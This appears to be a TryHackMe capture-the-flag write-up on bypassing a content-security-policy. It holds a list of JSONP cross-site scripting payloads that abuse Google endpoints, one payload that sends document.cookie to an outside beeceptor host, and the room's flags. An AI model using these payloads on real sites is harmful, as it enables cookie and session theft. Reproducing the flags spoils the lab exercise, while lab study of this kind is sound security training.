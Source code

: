 
*THM{Style_Y0ur_W3bs1teS}*

Flag for attack-5  

```
┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.243.75.161:3005/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-RgvJ6xDqmBUDrHWsndjbCIZvwVE"
Date: Thu, 12 Jan 2023 02:55:46 GMT
Connection: keep-alive

nice writeup: https://weizman.github.io/page-whatsapp-vuln/

https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt


#Google.com:

"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>

"><script src="https://googleads.g.doubleclick.net/pagead/conversion/1036918760/wcm?callback=alert(1337)"></script>

"><script src="https://www.googleadservices.com/pagead/conversion/1070110417/wcm?callback=alert(1337)"></script>

"><script src="https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=alert(1337)"></script>

"><script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>

*.google.com (subdomain)


<script src="https://accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://witty.free.beeceptor.com/'.concat(document.cookie))"></script>


GET `/flag=THM%7BN0_JSONP_D0mains_Plz%7D`

429 0.0s a minute ago (cz many requests (free acc))

flag=THM{N0_JSONP_D0mains_Plz}


```
